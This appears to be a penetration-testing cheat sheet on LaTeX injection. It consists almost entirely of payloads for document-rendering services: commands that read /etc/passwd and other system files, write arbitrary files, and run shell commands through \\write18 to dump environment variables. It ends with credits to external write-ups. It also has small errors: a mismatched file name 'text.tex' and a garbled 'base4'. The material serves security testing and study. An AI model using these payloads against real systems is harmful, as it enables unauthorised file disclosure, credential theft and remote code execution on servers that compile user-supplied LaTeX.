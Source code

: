 # LaTex Injection

## Read file
```bash
\input{/etc/passwd}
\include{password} # load .tex file
```

Read single lined file
```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

Read multiple lined file
```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline 
    \text{\fileline}
\repeat
\closein\file
```

## Write file
```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution
The input of the command will be redirected to stdin, use a temp file to get it.
```bash
\immediate\write18{env > output}
\input{output}
```
If you get any LaTex error, consider using base64 to get the result without bad characters
```bash
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

```bash
\input|ls|base4
```


## Thanks to
* [Hacking with LaTeX - Sebastian Neef - 0day.work](https://0day.work/hacking-with-latex/)
* [Latex to RCE, Private Bug Bounty Program - Yasho](https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a)
* [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)